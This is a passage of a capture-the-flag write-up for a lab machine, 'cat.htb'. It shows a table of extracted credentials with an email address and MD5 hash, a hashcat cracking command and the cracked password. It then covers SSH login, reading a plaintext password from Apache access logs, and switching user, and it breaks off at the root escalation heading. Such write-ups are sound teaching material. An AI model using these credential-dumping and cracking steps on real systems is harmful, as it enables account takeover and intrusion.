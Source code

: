 **Extracted Credentials:**

| ID  | Username | Email                                                       | Password (MD5)                   |
| --- | -------- | ----------------------------------------------------------- | -------------------------------- |
| 2   | rosa     | [rosamendoza485@gmail.com](mailto:rosamendoza485@gmail.com) | ac369922d560f17d6eeb8b2c7dec498c |
| …   | …        | …                                                           | …                                |

# Credential Cracking

The password hashes were cracked using `hashcat` with the `rockyou.txt` wordlist:

```bash
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

**Result:**

```text
rosa:soyunaprincesarosa
```

# Initial Access

Using Rosa's credentials, we gained access via SSH:

```bash
ssh rosa@cat.htb
```

# Privilege Escalation

## Discovering Axel’s Credentials

Reviewing Apache logs revealed Axel’s plaintext credentials:

```bash
cat /var/log/apache2/access.log
```

Log snippet:

```text
GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q
```

Using these credentials, we can switch to the `axel` user:

```bash
su axel
Password: ********************
```

The user flag is located in the `/home/axel/user.txt` file.

# Privilege Escalation to Root
